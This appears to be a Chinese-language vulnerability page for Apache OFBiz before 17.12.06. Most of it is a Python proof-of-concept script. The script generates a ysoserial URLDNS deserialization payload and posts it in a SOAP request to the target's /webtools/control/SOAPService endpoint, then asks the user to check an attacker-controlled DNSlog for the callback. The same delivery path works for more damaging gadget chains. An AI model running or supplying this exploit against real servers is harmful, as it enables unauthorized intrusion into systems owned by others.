 <languages /> <translate>

漏洞影響
--------

</translate>

Apache OFBiz \< 17.12.06

POC
---

    import requests
    import sys
    import sys
    import subprocess
    import binascii
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mVersion: Apache OFBiz                                            \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+  \033[36mDnslog      >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+------------------------------------------')

    def trans(s):
        return "%s" % ''.join('%.2x' % x for x in s)

    def POC_1(target_url, Dnslog):
        popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', "URLDNS", Dnslog], stdout=subprocess.PIPE)
        data = popen.stdout.read()
        hex_data = trans(data)
        headers = {
            'Content-Type': 'text/xml'
        }
        post_data = '''<?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header/><soapenv:Body><peiqi:clearAllEntityCaches xmlns:peiqi="http://ofbiz.apache.org/service/"><peiqi:cus-obj>%s</peiqi:cus-obj></peiqi:clearAllEntityCaches></soapenv:Body></soapenv:Envelope>''' % hex_data
        vuln_url = target_url + "/webtools/control/SOAPService"
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, data=post_data, headers=headers, verify=False, timeout=5)
            print("\033[36m[o] 正在请求 {}/webtools/control/SOAPService..... \033[0m".format(target_url))
            if response.status_code == 200:
                print("\033[36m[o] 请检查 Dnslog 响应\n \033[0m")
            else:
                print("\033[31m[x] 请求失败 \033[0m")
                sys.exit(0)

        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m")


    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        Dnslog = str(input("\033[35mDnslog >>> \033[0m"))
        POC_1(target_url, Dnslog)